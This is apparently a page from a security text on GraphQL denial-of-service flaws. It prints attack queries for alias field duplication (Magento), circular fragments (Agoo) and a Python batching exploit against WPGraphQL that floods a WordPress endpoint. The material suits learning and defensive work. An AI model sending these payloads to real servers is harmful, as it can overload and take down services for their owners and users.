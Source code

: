 
* **Aliases for Field Duplication (Magento):** A vulnerability using aliases to duplicate fields led to a denial of service . The exploit involves using aliases to send duplicate fields in a query, which can cause the server to consume more resources than necessary .

```
query {
    alias1: countries {
        full_name_english
        full_name_english # continues 1000s of times
        --snip--
    }
    
    alias2: countries {
        --snip--
    }
    
    alias3: countries {
        --snip--
    }
}
```

* **Array-Based Batching for Field Duplication (WPGraphQL):** An array-based batching technique was used to duplicate fields and cause a denial of service on WPGraphQL, a WordPress plug-in . The following code is a snippet of an exploit that demonstrates the vulnerability:

```
payload = 'content \n comments { \n nodes { \n content } }' * FORCE_MULTIPLIER
query = {'query':'query { \n posts { \n nodes { \n ' + payload + '} } }'}
for _ in range(0, CHAINED_REQUESTS):
    queries.append(query)
r = requests.post(WORDPRESS_URL, json=queries)
print('Time took: {}'.format(r.elapsed.total_seconds()))
```

* **Circular Fragments (Agoo):** A circular fragment condition was exploited to cause a denial of service on an Agoo server . The exploit creates two fragments that reference each other and then includes one of them in a query, causing an infinite loop.

```graphql
query Introspection {
    __schema {
        directives {
            name
        }
    }
}

-------------------
query CircularFragment {
    __schema {
        ❶ ...A
    }
}

fragment A on __Schema {
    directives {
        name
    }
❷ ...B
}

fragment B on __Schema {
    ❸ ...A
}
```
